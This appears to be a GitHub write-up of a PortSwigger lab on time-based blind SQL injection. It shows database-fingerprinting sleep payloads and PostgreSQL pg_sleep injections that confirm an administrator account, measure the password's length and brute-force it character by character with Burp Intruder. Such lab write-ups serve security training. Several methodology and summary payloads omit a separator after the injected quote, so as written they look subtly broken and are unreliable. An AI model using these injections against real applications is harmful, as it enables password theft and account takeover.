



## Blind SQL injection with time delays and information retrieval

**Title:** Blind SQL injection with time delays and information retrieval. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the `administrator` user.

## Preface

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work. 

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response. 

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true: `'; IF (1=2) WAITFOR DELAY '0:0:10'--` `'; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs does not trigger a delay, because the condition `1=2` is false. The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought
At first we have to determine which database is using the application. For this we have to use all these payloads:
Database | Payload
-------- | -----
Oracle | dbms_pipe.receive_message(('a'),10)
Microsoft | WAITFOR DELAY '0:0:10'
PostgreSQL | SELECT pg_sleep(10)
MySQL	| SELECT SLEEP(10)

We tried all these payloads & figured out that this web application is using PostgreSQL. Our payload is `TrackingId=LsT'||pg_sleep(10)--`.

Now change it to: `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. Verify that the condition is true, confirming that there is a user called `administrator`.

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
`TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. After iterating we concluded that the password is 20 characters long.

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu. Here, we use cluster bomb option with two payload position. `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,§payload01§,1)='§payload02§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.

Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".

**Summary:** 
1. Fingerprinting database with `TrackingId=LsT'||pg_sleep(10)--`

2. `administrator` user confirmation with `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

3. Password length determination `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

4. Brute forcing password with `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,§payload01§,1)='§payload02§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.
